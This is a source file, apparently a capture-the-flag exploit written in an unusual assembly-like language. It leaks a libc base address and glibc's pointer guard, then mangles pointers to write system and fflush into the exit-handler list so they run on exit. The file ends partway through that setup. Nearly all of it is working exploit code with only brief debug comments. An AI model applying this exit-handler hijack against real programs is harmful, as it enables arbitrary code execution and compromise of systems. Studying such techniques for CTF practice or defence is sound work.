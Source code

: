 ```asm


_main function public

// leak libc addr
int64 r0 = 0x31fc08
int64 r1 = address([libc_addr])
int64 [r1] = 0
int64 r2 = 6
call _leak

// print libc base addr for debug purposes
int64 r16 = [libc_addr]
int64 r16 = r16 - 0x3c8 // libc base
int64 [libc_addr] = r16
int64 r1 = address([parlist])
int64 [r1] = r16
int64 r0 = address([print_hex])
call _printf


// leak pointer guard
int64 r0 = 0x105ff0 - 0x4890 // pointer guard offset
int64 r1 = [libc_addr]
int64 r1 = r1 - 0x4890 // pointer guard addr
int64 r2 = address([pointer_guard])
int64 r3 = 9
call _leak_efficient

// print pointer guard to stdout for debug purposes
int64 r2 = [pointer_guard]
int64 r1 = address([parlist])
int64 [r1] = r2
int64 r0 = address([print_hex])
call _printf

// overwrite exit functions

int64 r24 = [libc_addr]
int64 r25 = r24 + 0x21bf00 // initial addr


// put system into initial->fns[0]
int64 r0 = r24 + 0x50d70 // system addr
call _mangle_pointer

int64 [tmp_mem + 8] = r0
int64 r0 = 3 // ef_at
int64 [tmp_mem] = r0
int64 r0 = r25 + 0x10
int64 r1 = address([tmp_mem])
int64 r2 = 16
call _write


// put fflush into initial->fns[1]
// also put stdout after it as argument
int64 r0 = r24 + 0x7f130 // fflush addr
call _mangle_pointer

int64 [tmp_mem + 8] = r0
int64 r0 = 4 // ef_cxa
int64 [tmp_mem] = r0
```